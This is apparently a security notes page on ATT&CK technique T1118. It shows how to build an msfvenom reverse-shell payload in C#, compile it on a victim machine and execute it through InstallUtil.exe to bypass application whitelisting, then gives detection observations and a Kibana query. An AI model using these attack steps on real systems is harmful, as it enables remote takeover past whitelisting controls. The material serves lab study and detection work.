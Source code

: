 ```yaml
---
description: InstallUtil code execution - bypass application whitelisting.
---
```


# T1118: InstallUtil

## Execution

First of, let's generate a C\# payload \(with [InstallUtil script](https://github.com/khr0x40sh/WhiteListEvasion)\) that contains shellcode from msfvenom and upload the temp.cs file to victim's machine:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
python InstallUtil.py --cs_file temp.cs --exe_file temp.exe --payload windowsreverse_shell_tcp --lhost 10.0.0.5 --lport 443
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Compile the .cs to an .exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\csc.exe C:\experiments\installUtil\temp.cs
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Execute the payload:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Microsoft.NET\Framework\v4.0.30319\temp.exe
Microsoft (R) .NET Framework Installation utility Version 4.0.30319.17929
Copyright (C) Microsoft Corporation.  All rights reserved.

Hello From Uninstall...I carry out the real work...
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Enjoy the sweet reverse shell:

![](../.gitbook/assets/installutil-shell.png)

## Observations

Look for `InstallUtil` processes that have established connections, especially those with cmd or powershell processes running as children - you should treat them as suspicious and investigate the endpoint closer:

![](../.gitbook/assets/installutil-procexp.png)

A very primitive query in kibana allowing to find events where InstallUtil spawns cmd:

{% code-tabs %}
{% code-tabs-item title="kibana" %}
```text
event_data.ParentCommandLine:"*installutil.exe*" && event_data.Image:cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![InstallUtil launching the malicious payload](../.gitbook/assets/installutil-kibana.png)

![csc.exe created a temp.exe which contains the reverse shell payload](../.gitbook/assets/installutils-csc.png)

What is interesting is that I could not see an established network connection logged in sysmon logs, although I could see other network connections from the victim machine being logged.

{% hint style="danger" %}
Will be coming back to this one for further inspection - possibly related to sysmon configuration.
{% endhint %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1118" %}

{% embed url="https://github.com/khr0x40sh/WhiteListEvasion" %}

